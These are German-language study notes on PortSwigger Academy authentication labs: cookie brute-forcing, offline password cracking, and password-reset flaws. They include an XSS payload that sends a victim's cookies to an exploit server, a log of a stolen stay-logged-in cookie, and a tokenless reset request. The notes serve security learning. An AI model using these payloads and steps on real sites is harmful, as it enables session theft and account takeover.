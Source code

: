 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Andere Authentication Mechanismen

Es gibt noch weitere Mechansimen die gut abgesichert werden müssen.
- Remember Me
- Reset Password

### Remember me
Oft werden diese einfach mit einem Cookie-Token vergeben -> Gefährlich kann das werden wenn dieser nicht gut gesichert implementiert wird. Manchmal wird einfach nur ein Token aus Username und Passwort erstellt und encrypted.


## Lab: Brute-forcing a stay-logged-in cookie

1. Wir melden uns mit unserem Account an und checken das Verhalten der Webseite und sehen es wird beim Login ein Encrypted Logged-In Token übergeben.
![[brute-force-stay-logged-in1.png]]
2. Nach genauerem hinsehen und decrypten haben wir festgestellt, es sind einfach nur
   `Username:Password` als encrypted
3. Hab dann an Turbo Intruder Extension geschickt und ein BF Script laufen lassen welches den Cookie bruteforced anhand von folgendem Muster base64(Username:MD5(Passwort)) (Username und Passwortliste waren ja gegeben)![[brute-force-stay-logged-in2.png]]
4. Ergebnis bei Treffer. Danach kann man Seite an Browser senden und laden lassen![[brute-force-stay-logged-in3.png]]



## Lab: Offline password cracking

1. Wieder abchecken wie die Seite funktioniert.
	- XSS möglich in Comment-Section bei Posts, Stayed-Login(No Random Hash - Base64(Username:MD5(Passwort)))
2. Danach ein Exploit in der Comment-Section bei einem Blog-Post eingeschleust welcher den stayed-login-cookie an mich sendet. - Nutzer ruft unseren Server mit angehängten Cookies auf
```js
<script>document.location="exploit-server-url"+document.cookie</script>
```
3. In den Logs sehen wir nun die angehängten Cookies 
```
10.0.4.161      2025-09-22 10:27:47 +0000 "GET /exploitsecret=IkPigWIfXzgZjVhxP8xYvFg0FVJzf7Pn;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
4. Mit Decoder in Burp-Suit und Crackstation können wir den encrypteten Hash wieder decrypten



### Resetting Password

In der Praxis vergessen Nutzer oft ihre Passwörter daher ist es wichtig eine Methode einzubauen die eben ein solches zurücksetzen des Passworts möglich machen - Wichtiger ist es das auch entsprechend sicher zu machen
###### Passwörter über E-Mail
Anfällig für Man in the Middle angriffe

###### Passwörter als URL
Anfällig bei den temporären Token -> Wichtig diese gegenzuchecken sonst kann man einfach seinen eigenen POST Request zusammenstellen und das Passwort eines Users ändern nur mit dem Usernamen.

## Lab: Password reset broken logic

1. Testweise Passwort zurücksetzen mit eigenem Konto um zu schauen wie die Seite das handhabt
2. Stellen fest bei `POST /forgot-password?temp-forgot-password-token` legen wir ein neues Passwort fest mit mehreren Parametern
```
temp-forgot-password-token=c6t958p7h1mnkptraihiis0m6tykyzht&username=wiener&new-password-1=peter1&new-password-2=peter1
```
3. Testweise löschen wir den token und schauen ob die Anfrage durchgeht.
4. Anfrage geht durch und somit wissen wir, dass der Token nicht überprüft wird
5. Wir füllen die anderen Parameter und senden die Anfrage
6. Anfrage ging durch -> Passwort geändert


## Lab: Password reset poisoning via middleware

1. Mal wieder testweise schauen wie Forgot Password funktioniert und was genau gesendet und übergeben wird.
2. `POST /forgot-password` ist für uns relevant. 
	1. Wir sehen er nimmt den parameter username und host und baut damit einen tmp-token für passwort-reset
   ![[password-reset-mim1.png]]
3. User bekommt E-Mail mit exploit Link![[password-reset-mim2.png]]
4. User drückt auf Link und es wird der tmp-password-reset-token an unseren exploit-server-log geschickt
5. Key nutzen und in die `POST /forgot-password?temp-forgot-password-token=5648xegeq98d5bbx5f4a3sjw9rfxbz8d HTTP/2` einsetzen mit den anderen nötigen Parametern![[password-reset-mim3.png]]
6. Passwort für `carlos` auf `peter1` gesetzt


## Lab: Password brute-force via password change

1. Auch erstmal wieder rumprobieren und schauen welche Funktionen angreifbar sind
2. Wir schauen uns die Funktion an das Passwort zu ändern und nach mehrmaligen rumprobieren stellen wir fest, dass wir nicht ausgeloggt werden bei falschem `current password` wenn wir `neues Passwort1` und `neues Passwort2` ungleich haben -> Öffnet uns Türen zum bruteforcen
3. Wir laden den POST Request in unseren Turbo Intruder und passen die Parameter an![[brute-force-via-passwordchange1.png]]
4. Wir schauen uns an welche Length unterschiedlich ist und probieren das Passwort was dort steht.![[brute-force-via-passwordchange2.png]]
5. Erfolgreich eingeloggt

